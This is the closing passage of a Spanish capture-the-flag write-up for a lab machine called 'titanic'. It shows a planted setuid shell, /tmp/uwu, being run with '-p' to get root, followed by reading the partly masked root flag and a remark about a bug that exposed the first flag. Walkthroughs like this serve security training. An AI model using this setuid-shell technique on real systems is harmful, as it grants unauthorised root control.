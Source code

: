```bash
developer@titanic:/opt/app/static/assets/images$ ls -la /tmp
total 1424
drwxrwxrwt 14 root      root         4096 Jun 19 20:33 .
drwxr-xr-x 19 root      root         4096 Feb  7 10:37 ..
drwxrwxrwt  2 root      root         4096 Jun 19 19:56 .font-unix
drwxrwxrwt  2 root      root         4096 Jun 19 19:56 .ICE-unix
drwx------  3 root      root         4096 Jun 19 19:57 snap-private-tmp
-rw-------  1 developer developer     305 Jun 19 20:14 ssh_client_ip_developer
drwx------  3 root      root         4096 Jun 19 19:57 systemd-private-011990855f044c24a7dc22353bf74338-apache2.service-c3zVlT
drwx------  3 root      root         4096 Jun 19 19:57 systemd-private-011990855f044c24a7dc22353bf74338-ModemManager.service-p2ifUI
drwx------  3 root      root         4096 Jun 19 19:57 systemd-private-011990855f044c24a7dc22353bf74338-systemd-logind.service-KoB1gw
drwx------  3 root      root         4096 Jun 19 19:56 systemd-private-011990855f044c24a7dc22353bf74338-systemd-resolved.service-KSFFaq
drwx------  3 root      root         4096 Jun 19 19:56 systemd-private-011990855f044c24a7dc22353bf74338-systemd-timesyncd.service-8Um5pR
drwxrwxrwt  2 root      root         4096 Jun 19 19:56 .Test-unix
-rwsr-xr-x  1 root      root      1396520 Jun 19 20:33 uwu
drwx------  2 root      root         4096 Jun 19 20:02 vmware-root_610-2731152165
drwxrwxrwt  2 root      root         4096 Jun 19 19:56 .X11-unix
drwxrwxrwt  2 root      root         4096 Jun 19 19:56 .XIM-unix
```

Con esto ya podemos proceder a tomar la última flag.

```bash
developer@titanic:/opt/app/static/assets/images$ /tmp/uwu -p
uwu-5.1# cd /root
uwu-5.1# ls -la
total 52
drwx------  7 root root      4096 Jun 19 20:02 .
drwxr-xr-x 19 root root      4096 Feb  7 10:37 ..
lrwxrwxrwx  1 root root         9 Jan 29 12:29 .bash_history -> /dev/null
-rw-r--r--  1 root root      3106 Oct 15  2021 .bashrc
drwx------  2 root root      4096 Jan 27 15:28 .cache
-rwxr-xr-x  1 root root        68 Feb  5 14:55 cleanup.sh
drwxrwx---  2 root developer 4096 Feb  3 17:13 images
-rw-------  1 root root        20 Feb  7 11:25 .lesshst
drwxr-xr-x  3 root root      4096 Aug  1  2024 .local
-rw-r--r--  1 root root       161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root       104 Feb  3 17:26 revert.sh
-rw-r-----  1 root root        33 Jun 19 20:02 root.txt
drwx------  3 root root      4096 Aug  1  2024 snap
drwx------  2 root root      4096 Aug  1  2024 .ssh
uwu-5.1# cat root.txt
ebeea52174b91549495668d195******
```

## Extra

Me pareció extraño que dejaran así el pequeño bug de poder leer la primera flag sin siquiera tener acceso a la máquina. Pensé que luego solucionarian el fallo.